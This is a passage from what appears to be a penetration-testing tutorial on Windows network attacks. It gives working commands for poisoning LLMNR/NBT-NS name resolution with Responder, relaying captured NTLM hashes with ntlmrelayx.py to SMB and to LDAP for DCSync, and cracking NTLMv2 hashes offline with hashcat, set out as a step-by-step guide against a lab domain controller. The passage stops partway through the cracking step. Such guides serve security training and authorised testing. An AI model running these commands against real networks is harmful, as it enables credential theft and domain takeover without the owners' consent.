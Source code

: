     ```
    
-   **ntlmrelayx.py** (Impacket) – Relay captured hashes to services
    
    ```bash
    # Relay to SMB (share access)
    ntlmrelayx.py -t smb://dc1.lab.local --smb2support
    
    # Relay to LDAP (DCSync)
    ntlmrelayx.py -t ldap://dc1.lab.local --escalate-method drsuapi
    
    ```
    
-   **hashcat** – Crack NTLMv2 hashes offline
    
    ```bash
    # NTLMv2 mode 5600
    hashcat -m 5600 captured.hash wordlist.txt
    
    ```
    

----------

### Step-by-Step Guide

1.  **Poison name-resolution**
    
    ```bash
    responder -I eth0 -wr
    
    ```
    
    _Output:_ Logs in `/usr/share/responder/logs/Responder-Session.log` capturing NTLMv2 hashes.
    
2.  **Trigger name lookups on target**
    
    ```bat
    ping NONEXISTENT-SRV
    
    ```
    
    _Windows sends LLMNR/NBT-NS queries that Responder poisons._
    
3.  **Extract captured hashes**
    
    ```bash
    grep "NTLMv2-SSP" /usr/share/responder/logs/Responder-Session.log > captured.hash
    
    ```
    
    _`captured.hash` now contains challenge-response pairs._
    
4.  **Crack hashes**
    
    ```bash
    hashcat -m 5600 captured.hash wordlist.txt
    